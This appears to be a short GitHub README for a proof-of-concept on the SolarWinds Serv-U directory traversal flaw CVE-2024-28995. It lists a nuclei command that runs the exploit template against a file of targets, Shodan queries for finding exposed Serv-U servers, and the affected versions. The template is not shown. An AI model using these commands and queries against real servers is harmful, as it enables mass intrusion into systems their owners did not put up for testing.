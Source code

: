 ## SolarWinds Serv-U Directory Traversal Vulnerability POC

```
cat targets.txt | nuclei -duc -t CVE-2024-28995.yaml 
```

![image](https://github.com/karkis3c/cves/assets/155802810/8d660d33-9132-49e9-aa51-108aab4d63f1)

## Analysis 
https://t.co/JPCd6Y4v1g

## Shodan Querys

```product:"Rhinosoft Serv-U httpd,rhinosoft serv-u httpd"```

```http.favicon.hash:"812385209,-494622145,-132641984,-2076792107,-1735578509,-938894035,-741511745,-1109617687,963790560,-1882082933"```

```title:"Serv-U"```

## Affected Products
SolarWinds Serv-U 15.4.2 HF 1 and previous versions
